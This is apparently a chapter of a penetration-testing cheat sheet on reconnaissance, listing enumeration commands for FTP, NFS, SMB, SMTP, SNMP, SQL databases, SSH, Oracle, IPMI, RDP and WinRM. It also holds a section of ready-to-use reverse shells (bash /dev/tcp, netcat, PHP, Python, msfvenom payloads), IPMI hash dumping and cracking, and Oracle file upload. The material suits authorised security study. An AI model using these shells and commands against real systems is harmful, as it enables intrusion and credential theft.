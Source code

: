 # 🕵️ Footprinting

In this chapter of the Pwnomicon, we unveil rituals of passive and active reconnaissance — spells to trace the outlines of distant targets, enumerate domains whispered through DNS, and commune with services lurking in the void.

> *“Before breaching the gates, one must first map the dreamscape.”*

---

<details>
<summary><strong>🌐 Certificate Transparency + IP Resolution + Shodan</strong></summary>

Subdomain discovery via [crt.sh](https://crt.sh), followed by DNS resolution and Shodan fingerprinting.

```bash
# Initialize Shodan
shodan init <APIKEY>

# Extract subdomains from Certificate Transparency logs
curl -s "https://crt.sh/?q=<DOMAIN>&output=json" | jq -r '.[].name_value' | \
awk '{gsub(/\\n/,"\n")}1' | sort -u | grep -v "CN=" > subdomainlist.txt

# Resolve IPs for discovered subdomains
for i in $(cat subdomainlist.txt); do 
  host "$i" | grep "has address" | grep "<DOMAIN>" | cut -d" " -f4 >> ip-addresses.txt
done

# Perform Shodan footprinting
for i in $(cat ip-addresses.txt | sort -u); do 
  shodan host "$i"
done
```

</details>

---

<details>
<summary><strong>📶 CIDR Discovery Script</strong></summary>

**Identify IP ranges and scan for live hosts using a custom script**

```bash
# This script automates the process of identifying the CIDR block for a given IP,
# pings all IPs in the range, and resolves IPs for a target domain.
# It supports argument validation and automation for efficient network mapping.
# See the script for details: ../scripts/CIDR.sh
```

### Key steps:
1. Validate input arguments
2. Identify CIDR block for a given IP
3. Ping all IPs in the range
4. Resolve IPs for a target domain
5. Support options and automation

**Script**: [`CIDR.sh`](../scripts/CIDR.sh)

</details>
 
---

<details>
<summary><strong>📦 FTP</strong></summary>

**Scan FTP service**

```bash
# Scans the target for FTP (port 21), detects service/version, runs default scripts, and enables aggressive scan options.
nmap -sV -p21 -sC -A <IP>
```

**Enumerate FTP settings and anonymously download files**

```bash
# Shows the FTP server configuration, excluding comments.
cat /etc/vsftpd.conf | grep -v "#"

# Lists users who are denied FTP access.
cat /etc/ftpusers

# Recursively downloads all files from the FTP server using the provided credentials.
wget -m --no-passive ftp://<USER>:<PASSWORD>@<IP>
```

**Service interaction**

```bash
# Connects to the FTP service using Netcat for manual interaction.
nc -nv <IP> <PORT>

# Connects to the FTP service using Telnet.
telnet <IP> <PORT>

# Initiates an SSL/TLS connection to the FTP service for encrypted communication.
openssl s_client -connect <IP>:<PORT> -starttls ftp
```

</details>

---

<details>
<summary><strong>📁 NFS</strong></summary>

**Scan NFS service**

```bash
# Scans for NFS-related ports and runs default scripts.
sudo nmap <IP> -p111,2049 -sV -sC

# Runs all NFS-related NSE scripts for deeper enumeration.
sudo nmap --script nfs* <IP> -sV -p111,2049
```

**Service interaction**

```bash
# Lists available NFS shares exported by the server.
showmount -e <IP>

# Mounts the NFS share locally for browsing.
mkdir target-NFS
sudo mount -t nfs <IP>:/ ./target-NFS/ -o nolock
cd target-NFS

# Shows directory structure.
tree .

# Lists contents with numeric user/group IDs.
ls -l -n mnt/nfs/

# Unmounts the NFS share.
sudo umount ./target-NFS
```

</details>
 
---

<details>
<summary><strong>🧩 SMB</strong></summary>

**Scan SMB service**

```bash
# Scans for SMB ports, detects service/version, and runs default scripts.
sudo nmap <IP> -sV -sC -p139,445
```

**Analyze shared folders and user access**

```bash
# Shows Samba configuration, excluding comments and semicolons.
cat /etc/samba/smb.conf | grep -v "#\|\;"

# Restarts the Samba service after making changes.
sudo systemctl restart smbd

# Lists available SMB shares without authentication.
smbclient -N -L //<IP>
```

### Tools:
- [`samrdump.py`](../scripts/samrdump.py): Dumps SAMR information from Windows hosts.
- [SMBMap](https://github.com/ShawnDEvans/smbmap): Enumerates SMB shares and permissions.
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec): Swiss army knife for pentesting networks.
- [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng): Next-gen SMB enumeration tool.

```bash
# Install Enum4Linux-ng for advanced SMB enumeration.
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
sudo cp enum4linux-ng.py /usr/local/bin/enum4linux-ng
sudo chmod +x /usr/local/bin/enum4linux-ng
enum4linux-ng -h
```

</details>
 
---

<details>
<summary><strong>📧 SMTP</strong></summary>

**Scan SMTP service**

```bash
# Scans for SMTP on port 25, runs default scripts, and detects service/version.
sudo nmap <IP> -sC -sV -p25

# Checks if the SMTP server is an open relay.
sudo nmap <IP> -p25 --script smtp-open-relay -v
```

**Get configuration file**

```bash
# Displays the Postfix configuration file, excluding comments and empty lines.
cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"
```

**Service interaction**

```bash
# Connects to the SMTP service for manual interaction and banner grabbing.
telnet <IP> <PORT>
```

</details>

---

<details>
<summary><strong>📨 IMAP POP3</strong></summary>

**Scan IMAP and POP3 services**

```bash
# Scans for IMAP and POP3 services, runs default scripts and capability checks.
sudo nmap <IP> -sV -p 110,143,993,995 -sC --script pop3-capabilities,imap-capabilities
```

**Service interaction**

```bash
# Connects to IMAPS using curl.
curl -k 'imaps://<IP>' --user <USER>:<PASSWORD>

# Connects to POP3S using OpenSSL.
openssl s_client -connect <IP>:pop3s

# Connects to IMAPS using OpenSSL.
openssl s_client -connect <IP>:imaps
```

</details>

---

<details>
<summary><strong>📡 SNMP</strong></summary>

**Footprinting SNMP service**

```bash
# Walks the SNMP tree using the provided community string.
snmpwalk -v2c -c <COMMUNITYSTRING> <IP>

# Scans for SNMP using a wordlist of community strings.
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```

**Get configuration file**

```bash
# Displays the SNMP daemon configuration, excluding comments and empty lines.
cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'
```

</details>

---

<details>
<summary><strong>🛢️ MySQL</strong></summary>

**Scan MySQL service**

```bash
# Scans for MySQL service, detects version, and runs MySQL NSE scripts.
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

**Get configuration file**

```bash
# Displays the MySQL server configuration, excluding comments and empty lines.
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**

```bash
# Connects to MySQL without a password.
mysql -u <USER> -h <IP>

# Connects to MySQL using a password.
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

---

<details>
<summary><strong>💾 MSSQL</strong></summary>

**Scan MSSQL service**

```bash
# Runs multiple Nmap scripts for MSSQL enumeration and checks for weak credentials.
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

**MSSQL Ping in Metasploit**

```bash
# Uses Metasploit to check if the MSSQL service is alive.
msf6 > use auxiliary/scanner/mssql/mssql_ping
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts <IP>
msf6 auxiliary(scanner/mssql/mssql_ping) > run
```

**Service interaction**

```bash
# Connects to MSSQL using the Impacket mssqlclient.py script.
python3 mssqlclient.py Administrator@<IP> -windows-auth
```

</details>

---

<details>
<summary><strong>🐚 Reverse Shell</strong></summary>

**PHP**
```php
# PHP reverse shell using bash over TCP.
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```

**BASH**
```bash
# Bash reverse shell over TCP.
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

# Bash reverse shell over UDP.
bash -i >& /dev/udp/<IP>/<PORT> 0>&1
```

**Netcat**
```bash
# Netcat reverse shell.
nc -e /bin/sh <IP> <PORT>
```

**Python**
```bash
# Python reverse shell using socket and subprocess.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Metasploit**
```bash
# Generate various reverse shell payloads with msfvenom.
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Meterpreter**
```bash
# Generate Meterpreter reverse shell payloads with msfvenom.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Spawn TTY**
```bash
# Upgrade a shell to a fully interactive TTY.
python3 -c 'import pty; pty.spawn("/bin/bash"); import os; os.putenv("TERM", "xterm"); os.system("export SHELL=/bin/bash");'
export TERM=xterm
```

</details>

---

<details>
<summary><strong>🔐 SSH</strong></summary>

**Scan with SSH-Audit**
```bash
# Clones and runs SSH-Audit to enumerate SSH configuration and security.
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py <IP>
```

**Get configuration file**
```bash
# Displays the SSH daemon configuration, excluding comments and empty lines.
cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**
```bash
# Connects to SSH using a username and password.
ssh <USER>@<ip>

# Connects to SSH using a private key.
ssh -i id_rsa <USER>@<ip>
```

**Port Forwarding**
```bash
# Forwards a local port to a remote host/port via SSH.
ssh -L <LPORT>:<RHOST>:<RPORT> <USER>@<IP>
```

</details>

---

<details>
<summary><strong>🧰 Oracle TNS</strong></summary>

**Scan TNS service**

```bash
# Scans for Oracle TNS service and attempts SID brute-forcing.
sudo nmap -p1521 -sV <IP> --open
sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute
```

**Oracle-Tools**

# See the setup script for installing Oracle tools.
[`Oracle-Tools-setup.sh`](../scripts/Oracle-Tools-setup.sh)

**Testing ODAT**

```bash
# Runs all ODAT modules against the Oracle server.
./odat.py all -s <IP>
```

**SQLplus Login**
```bash
# Connects to Oracle using SQLplus.
sqlplus <USER>/<PASS>@<IP>/XE
sqlplus <USER>/<PASS>@<IP>/XE as sysdba
```

**Fix SQLplus Library Path**
```bash
# Fixes library path issues for SQLplus.
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

**File Upload with Oracle**
```bash
# Uploads a file to the Oracle server using ODAT.
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <IP> -d XE -U user -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Download Uploaded File**
```bash
# Downloads the uploaded file via HTTP.
curl -X GET http://<IP>/testing.txt
```

</details>

---

<details>
<summary><strong>🖥️ IPMI</strong></summary>

**Scan with Nmap**
```bash
# Scans for IPMI version using Nmap UDP script.
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Scan with Metasploit**
```bash
# Uses Metasploit to enumerate IPMI version.
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 > set rhosts <IP>
msf6 > show options
msf6 > run
```

**Dump Hashes**
```bash
# Dumps IPMI password hashes using Metasploit.
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts <IP>
msf6 > run
```

**Crack IPMI Hashes HP iLO using a factory default password**
```bash
# Cracks IPMI hashes using hashcat and a brute-force mask.
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

</details>

---

<details>
<summary><strong>➡️ RDP</strong></summary>

**Scan with Nmap**
```bash
# Scans for RDP service and runs RDP-related NSE scripts.
nmap -sV -sC -n <IP> -p3389 --disable-arp-ping --script rdp*
```

**RDP Security Check**

```bash
# Uses rdp-sec-check to enumerate RDP security settings.
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl <IP>
```

**Service interaction**
```bash
# Connects to RDP using xfreerdp.
xfreerdp /u:<USER> /p:"<PASSWORD>" /v:<IP>
```

</details>

---

<details>
<summary><strong>🔗 Windows Remote Management Protocols</strong></summary>

**WinRM**

**Scan with Nmap**
```bash
# Scans for WinRM service on ports 5985 and 5986.
nmap -sV -sC <IP> -p5985,5986 --disable-arp-ping -n
```

**Service interaction**
```bash
# Connects to WinRM using evil-winrm.
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```

**Windows Management Instrumentation (WMI)**

**Footprinting the service**
```bash
# Executes a command on the remote host using WMI via Impacket.
usr/share/doc/python3-impacket/examples/wmiexec.py <USER>:"<PASSWORD>"@<IP> "hostname"
```

</details>

---

📘 **Next step:** Continue with [INFORMATION GATHERING](./02-information-gathering.md)
